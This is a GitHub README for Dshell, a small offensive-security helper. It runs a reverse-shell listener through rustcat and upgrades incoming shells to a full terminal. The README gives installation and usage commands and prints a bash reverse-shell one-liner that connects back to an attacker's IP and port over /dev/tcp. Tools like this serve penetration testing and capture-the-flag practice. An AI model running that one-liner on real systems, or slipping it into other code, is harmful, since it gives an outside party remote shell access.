 # 🤔 What is this?

![](/Video/dshell.gif)

Tired of manually upgrading your reverse shell every time? Let Dshell handle it for you!

Dshell is a tiny reverse-shell helper that spins up a responsive listener and automatically upgrade your terminal on a given port using [rustcat](https://github.com/robiot/rustcat)

<br>

# ✨ Features

* Quickly set up a reverse shell listener.
* Fully responsive TTY with $${\text{\color{red}C}\text{\color{green}O}\text{\color{blue}L}\text{\color{yellow}O}\text{\color{orange}R}\text{\color{lightblue}S}}$$ and <ins>Tab Completion</ins>
* Auto-selects the best network interface when none is provided.

# 🛠️ Installation

1. Ensure [rustcat](https://github.com/robiot/rustcat) is installed on your system.
2. Clone the repository and run the installer
```sh
git clone https://github.com/Bimo754/Dshell
cd Dshell
chmod +x install.sh
sudo ./install.sh
```

<br>


# 📖 Usage

**Dshell** has two modes, `listen` or `kill`

## Help Menu

```sh
dshell -h
```
**Usage**
```sh
Usage:

  dshell [options]

Options:
  -p <PORT>        Port number to listen on.
     [IFACE|IP]    Optional network interface or IP address to bind to.

  -k <PORT|all>    Kill dshell process on PORT or all running processes.
```

## Run a Listener

```sh
dshell -p <PORT> [IFACE|IP]
```

Dshell will print the most commonly used reverse shell command (with the supplied IP and PORT), for example:

```sh
bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```

If you don't supply an interface or IP, Dshell will try these interfaces in order:

* `tun1`
* `tun0`
* `wlan0`
* `eth0`
* `lo`

## Kill Running Processes

```sh
dshell -k <PORT|all>
```

* `<PORT>` — Kill the Dshell process listening on the specified port.
* `all`  — Kill all running Dshell processes.

<br>

# Examples

Start a listener on port `4444` using `tun0` interface:

```sh
dshell -p 4444 tun0
```

Start a listener on port `4444` using the IP `1.1.1.1`:

```sh
dshell -p 4444 1.1.1.1
```

Kill `all` running Dshell processes:

```sh
dshell -k all
```

Kill Dshell processe that is listening on port `4444`:

```sh
dshell -k 4444
```
